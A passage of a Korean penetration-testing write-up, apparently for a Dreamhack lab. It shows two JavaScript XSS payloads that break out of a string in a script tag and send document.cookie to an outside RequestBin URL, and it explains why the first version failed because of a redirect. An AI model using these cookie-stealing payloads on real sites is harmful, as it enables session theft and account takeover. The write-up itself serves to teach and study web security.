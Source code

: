 입력한 페이로드는 다음과 같다.

<pre><code class="language-js hljs language-javascript" data-highlighted="yes"><span class="hljs-string">'</span>);
<span class="hljs-keyword">var</span> cookieData = <span class="hljs-variable language_">document</span>.<span class="hljs-property">cookie</span>;
<span class="hljs-keyword">var</span> img = <span class="hljs-keyword">new</span> <span class="hljs-title class_">Image</span>();
img.<span class="hljs-property">src</span> = <span class="hljs-string">"https://zgcsqwt.request.dreamhack.games/?cookie="</span> + cookieData;
(<span class="hljs-string">'</span>
</code></pre>

로그인 시도 후 `<script>` 태그의 내용에 정상적으로 악성 스크립트가 포함된 것을 확인하였다.

![XSS 6](/data/Penetration%20Testing%20%7C%20Week%2010/36.png)

이때 한 가지 문제에 직면했는데, RequestBin 측에 HTTP 요청이 정상적으로 수신되지 않는 현상이 발생했기 때문이었다. 그 이유를 파악하기 위해 다양한 자료를 조사해본 결과, 해당 문제가 두 번째 `<script>` 태그에 포함된 리다이렉션 코드에 기인하는 것으로 확인되었다.

일반적으로 웹 브라우저에서 Javascript를 통해 HTTP 요청을 전송할 경우 그 처리는 **비동기적**으로 이루어진다. 다시 말해, 네트워크 요청이 실제로 이루어지기 전에 뒤따르는 스크립트가 중단 없이 계속해서 실행(정확히는 Javascript가 모두 실행된 이후에 요청이 전송됨)되는 것이다. 그러나 Javascript 실행 중 리다이렉션 명령이 호출됨으로써, 네트워크 요청이 전송되기 이전에 클라이언트 측에서 다른 페이지로의 전환이 발생하였다. 이로 인해 원래 의도된 HTTP 요청이 중단되었고, 결과적으로 RequestBin에서는 해당 요청을 수신하지 못하게 된 것이다.

이 문제를 해결하기 위해 페이로드를 다음과 같이 수정하였다.

<pre><code class="language-js hljs language-javascript" data-highlighted="yes"><span class="hljs-string">'</span>);
<span class="hljs-keyword">var</span> cookieData = <span class="hljs-variable language_">document</span>.<span class="hljs-property">cookie</span>;
<span class="hljs-variable language_">window</span>.<span class="hljs-property">location</span>.<span class="hljs-property">href</span> = <span class="hljs-string">"https://zgcsqwt.request.dreamhack.games/?cookie="</span> + cookieData;
(<span class="hljs-string">'</span>
</code></pre>

`login.html`로의 리다이렉션 코드는 수정할 수 없으므로, 해당 스크립트보다 상위에 RequestBin 엔드포인트로의 리다이렉션 코드를 삽입하여 뒤의 코드를 무효화하는 방법을 선택하였다.
